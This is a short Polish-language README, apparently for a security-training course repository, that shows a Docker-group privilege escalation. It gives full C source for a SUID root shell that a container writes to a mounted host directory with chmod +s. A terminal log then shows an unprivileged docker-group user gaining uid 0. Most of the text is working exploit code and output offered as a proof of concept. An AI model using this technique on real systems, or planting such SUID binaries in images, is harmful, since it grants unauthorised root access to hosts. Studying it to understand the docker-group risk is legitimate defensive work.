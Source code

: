 # suidshell

Kompiluje prosty *suid shell*:

```
#include <unistd.h>
void main() { 
    setuid(0); seteuid(0); setgid(0); setegid(0); 
    execl("/bin/bash", "bash", NULL);
}
```
do */tmp/suidshell* i ustawia mu bit SUID (`chmod +s /tmp/suidshell`).

Jeśli masz uprawnienia do uruchamiania nowych kontenerów, ale nie masz uprawnień roota (np. należysz do grupy *docker*), z tym proof-of-concept możesz szybko roota mieć:

```
drg@kilo:~$ id
uid=1000(drg) gid=1000(drg) groups=1000(drg),27(sudo),999(docker)
drg@kilo:~$ mkdir tmp
drg@kilo:~$ docker run -v $(pwd)/tmp:/tmp aptmasterclass/suidshell
-rwsr-sr-x 1 root root 968304 Feb  8 05:10 /tmp/suidshell
drg@kilo:~$ ./tmp/suidshell
root@kilo:~# id
uid=0(root) gid=0(root) groups=0(root),27(sudo),999(docker),1000(drg)
root@kilo:~# exit
```

Ilustracja do https://aptmasterclass.com/ oraz https://blog.aptmasterclass.com/.
